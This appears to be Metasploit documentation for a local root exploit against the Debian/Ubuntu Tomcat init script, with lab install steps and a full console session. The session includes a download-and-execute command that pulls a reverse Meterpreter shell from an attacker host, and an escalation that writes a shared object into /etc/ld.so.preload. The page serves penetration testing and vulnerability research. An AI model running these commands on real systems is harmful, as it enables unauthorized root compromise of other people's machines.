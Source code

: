 ## Vulnerable Application

Tomcat (6, 7, 8) packages provided by default repositories on Debian-based
distributions (including Debian, Ubuntu etc.) provide a vulnerable
tomcat init script that allows local attackers who have already gained access
to the tomcat account (for example, by exploiting an RCE vulnerability
in a java web application hosted on Tomcat, uploading a webshell etc.) to
escalate their privileges from tomcat user to root and fully compromise the
target system.

Tested against Tomcat 8.0.32-1ubuntu1.1 on Ubuntu 16.04

### Install

This will install Tomcat 8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04 using the build from
[launchpad](https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282)

We also change the `tomcat8` user's shell to `/bin/bash` to make setting up the priv-esc
easier.

```
sudo apt-get install libecj-java build-essential
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/libtomcat8-java_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8-common_8.0.32-1ubuntu1.1_all.deb
sudo dpkg -i *tomcat*.deb
sudo sed -i 's|/bin/false|/bin/bash|g' /etc/passwd
```

You can now `su tomcat8` and get your starter shell.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell as the `tomcat` user (may be version dependent like `tomcat8`)
4. Do: `use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc`
5. Do: `set session #`
6. Do: `run`
7. You should get a root shell.

## Options

### CATALINA

Location of `catalina.out` file. Defaults to `/var/log/tomcat8/catalina.out`.

## Scenarios

### Tomcat8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04

Initial shell

```
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/TymOdj7T0Wc
[*] Server started.
[*] Run the following command on the target machine:
wget -qO NaXlMbmV --no-check-certificate http://1.1.1.1:8080/TymOdj7T0Wc; chmod +x NaXlMbmV; ./NaXlMbmV& disown
[*] 2.2.2.2    web_delivery - Delivering Payload (207 bytes)
[*] Sending stage (1017704 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59862) at 2023-01-16 07:23:48 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: tomcat8
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 16.04 (Linux 4.4.0-134-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable app version detected: 8.0.32.pre.1ubuntu1.1
[*] Creating backup of /var/log/tomcat8/catalina.out
[+] Original /var/log/tomcat8/catalina.out backed up to /root/.msf4/loot/20230116072430_default_2.2.2.2_varlogtomcat8_824428.txt
[*] Uploading Payload to /tmp/.SG5N9O
[*] Writing '/tmp/.SG5N9O' (250 bytes) ...
[*] Compiling exploit stub: /tmp/.INpf7Gw.so
[*] Deleting /var/log/tomcat8/catalina.out
[*] Creating symlink from /etc/ld.so.preload to /var/log/tomcat8/catalina.out
[+] Waiting 1800 seconds on tomcat to re-open the logs aka a Tomcat service restart
[*] Sleeping for 2 seconds before attempting again
[*] Sleeping for 4 seconds before attempting again
[*] Sleeping for 8 seconds before attempting again
[*] Sleeping for 16 seconds before attempting again
[*] injecting /tmp/.INpf7Gw.so into /etc/ld.so.preload
[*] Escalating payload privileges via SUID binary (sudo)
[*] Executing payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 2.2.2.2
[+] Deleted /tmp/.SG5N9O
[+] Deleted /tmp/.INpf7Gw.so
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:59866) at 2023-01-16 07:24:55 -0500

meterpreter > getuid
Server username: root
```